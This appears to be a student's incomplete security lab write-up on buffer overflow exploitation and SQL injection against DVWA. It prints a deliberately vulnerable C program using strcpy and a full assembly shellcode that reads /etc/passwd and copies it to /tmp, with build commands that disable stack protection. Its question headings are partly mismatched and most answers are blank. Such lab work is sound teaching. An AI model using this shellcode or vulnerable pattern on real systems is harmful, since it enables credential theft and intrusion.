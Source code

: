 # Lab #1,22110048, Nguyen Hoang Lam, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
This lab explores how to exploit a buffer overflow vulnerability  
**Question 1**: Exploration of various encryption with openssl
**Answer 1**:
## 1. Compile asm program and C program to executable code:
Compile the `vuln.c` program without stack protection:  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2`  
Compile the Shellcode  
`nasm -f elf32 shellcode.asm -o shellcode.o`  
`ld -m elf_i386 -o shellcode shellcode.o`  


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1.  Pull the DVWA Docker image  
Set up the eviroment  

```bash
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```
2.  Access DVWA
Open a web browser and go to: http://localhost
Log in with the default credentials:  
Username: admin  
Password: password
![image](https://github.com/user-attachments/assets/a4f05b15-2710-4ea2-9413-2dc902c95a83)

DVWA QL Injection page  
Input 1 to trigger the SQL injection  
![image](https://github.com/user-attachments/assets/f25e324a-a3e4-4178-8379-c16550d218c6)  


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
